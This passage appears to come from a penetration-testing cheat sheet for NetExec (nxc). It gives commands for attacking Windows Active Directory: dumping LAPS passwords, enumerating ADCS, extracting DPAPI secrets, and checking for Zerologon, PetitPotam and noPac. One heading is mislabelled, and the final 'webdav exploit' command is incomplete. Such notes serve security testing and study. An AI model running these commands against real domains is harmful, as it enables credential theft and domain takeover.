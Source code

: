* nxc
```bash
nxc ldap $IP -u user -p password -M laps
```

## ADCS

```bash
nxc ldap $IP -u user -p password -M adcs
```

## DPAPI

```bash
nxc smb $IP -u user -p password --dpapi
```

## NXC for vulns

* check for zerologon

```bash
nxc smb $IP -u username -p password -M zerologon
```

* check for potato

```bash
nxc smb $IP -u username -p password -M petitpotam
```

* check for nopac

```bash
nxc smb $IP -u username -p password -M nopac
```

* webdav exploit

```bash
nxc smb $IP -u username -p password -M
```